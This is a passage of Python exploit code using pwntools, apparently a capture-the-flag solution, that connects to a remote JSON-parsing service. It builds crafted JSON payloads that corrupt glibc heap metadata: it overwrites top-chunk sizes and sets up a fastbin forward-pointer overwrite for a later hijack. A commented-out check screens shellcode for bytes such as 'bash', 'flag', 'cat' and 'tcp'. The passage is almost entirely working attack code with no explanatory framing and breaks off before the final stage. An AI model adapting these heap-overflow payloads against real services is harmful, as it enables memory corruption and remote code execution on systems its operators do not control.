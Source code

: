 ```bash
    N, ret, calc_size = calc_array_pair_cnt(required_size, message_len)
    payload = b'1,' * N # 0x50 chunk
    # payload = payload.rstrip(b",")
    if ret == -1:
        payload += b'\x01' * (required_size - calc_size)
    # print("required_size {:#x} message_len {:#x} N {:#x} payload_len {:#x}".format(required_size, message_len, N, len(payload)))
    # print(b"payload: %b" % payload)
    return payload




def exp(host, port):
    io = remote(host, port, timeout = 9999)

    json_template = b'''
    {"data":"BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ","timestamp":61866,"timestamp":\x11[%b]}
    '''.strip()
    # print(json_template, len(json_template) - 2)
    template_len = len(json_template) - 2 + 1 # 2: %b, 1: content_length + 1
    top_chunk_size = 0x20e00 + 0x2000 # why 0x2000?

    raw_len = lambda x: len(get_raw_payload(x))

    # array_payload|overflow_old_top_chunk_payload|free_old_top_chunk_payload|overflow_new_top_chunk_payload|free_new_top_chunk_payload|overflow_fastbin_fd_payload|dummy_alloc_payload|hijack_payload

    overflow_old_top_chunk_payload =  b'"aaaaaaaaaaaaa\u"   '
    overflow_old_top_chunk_payload += b'0' * 8 # prev_size of old top_chunk
    overflow_old_top_chunk_payload += p16(0x41) # 0x1041 -> 0x41
    overflow_old_top_chunk_payload += b'"'
    overflow_old_top_chunk_payload += b',' # not end
    # print("overflow_old_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_old_top_chunk_payload), raw_len(overflow_old_top_chunk_payload)))


    # free_old_top_chunk_payload = b",1" # 0x50 chunk, we don't need this step because the next cJSON_String will do this happily

    overflow_new_top_chunk_payload =  b'"bbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u"   '
    overflow_new_top_chunk_payload += b'1' * 8 # prev_size of new top_chunk
    overflow_new_top_chunk_payload += p8(0x61 + 0x50) + p16(0) # 0x0000000000021f81 -> 0x00000000000000b1, save bytes as much as possible
    overflow_new_top_chunk_payload += b'"'
    overflow_new_top_chunk_payload += b',' # not end
    # print("overflow_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_new_top_chunk_payload), raw_len(overflow_new_top_chunk_payload)))

    # malloc(0x60 - 0x10)
    free_new_top_chunk_payload =  b'"'
    free_new_top_chunk_payload += b'2' * 0x50
    free_new_top_chunk_payload += b'"'
    free_new_top_chunk_payload += b',' # not end
    # print("free_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(free_new_top_chunk_payload), raw_len(free_new_top_chunk_payload)))

    # reclaim small bin and overflow fastbin
    # for k in blacklist_dict:
    #     assert k not in shellcode, "invalid char {}:{} in shellcode".format(shellcode.find(k), k)

    # for k in [b"bash", b"flag", b"cat", b"tcp"]:
```